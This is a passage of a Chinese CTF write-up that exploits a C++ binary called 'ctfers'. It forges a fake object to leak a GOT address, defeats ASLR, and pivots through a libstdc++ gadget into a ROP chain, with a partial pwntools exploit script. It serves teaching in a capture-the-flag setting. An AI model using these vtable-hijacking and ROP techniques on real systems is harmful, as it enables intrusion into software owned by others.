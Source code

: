 `CTFer` 对象还用 **STL 容器 `std::vector`** 存储了名字字符串。其具体实现依赖编译器，但我们可以通过在 `new` 前后断点，查看新增堆块的内容来反推其结构。

以下是用 C 语言表示的 `CTFer` 对象：（符号名仅作参考）

```c
struct CTFer {
    void (**vtable)(struct CTFer *);
    int64_t points;
    struct std_string {
        char *base;
        size_t length;
        union {
            size_t capacity;
            char buffer[16];
        };
    } nickname;
};
```

当 `length < 16` 时 `buffer` 复用 `capacity` 内存而非单独 malloc，不过这并不重要。我们可以先恢复正确的虚函数表，然后修改 nickname `base` 指向 GOT 项，修改适当的 `length`，从而通过 `print_info` 泄露基址。

获得各个库的基址绕过 ASLR 后解法就十分自由了，只要找到栈迁移 gadget 即可执行任意代码。需要注意调用 `info` 虚函数时 RAX 和 RDI 都指向 `CTFer` 对象，也就是可控的 `name_buf`，可依此选择 gadget。

这里我们选用来自 libstdc++ 中的一个 COP gadget：

```c
0x0000000000113764: mov rbp, rax; lea r12, [rax - 1]; test rdi, rdi; je 0x113c79; mov rax, qword ptr [rdi]; call qword ptr [rax + 0x30];
```

然后只需要在 `name_buf` 上写 ROP 链即可。

Exp:

```python
from pwn import *
context(os='linux', arch='amd64')

e = ELF('./ctfers')
io = ...
libc = ELF('./libc.so.6', checksec=False)


def add(fake_object: bytes):
    io.sendlineafter(b'Choice > ', b'0')
    io.sendlineafter(b'Name > ', fake_object)
    io.sendlineafter(b'Points > ', b'0')
    io.sendlineafter(b'- 1 > ', b'0')


def show_info():
    io.sendlineafter(b'Choice > ', b'2')


def backdoor(address: int):
    io.sendlineafter(b'Choice > ', str(0xdeadbeef).encode())
    io.sendline(str(address).encode())


vtable = 0x408C98
cout = 0x409080
libc_start_main_got = e.got['__libc_start_main']
input_buf = e.sym['name_buf']

# 还原虚函数表指针，改 std::string 头指针为 got 项
add(cyclic(16) + p64(vtable) + p64(0) +
    p64(libc_start_main_got) + p64(8) + p64(8))
```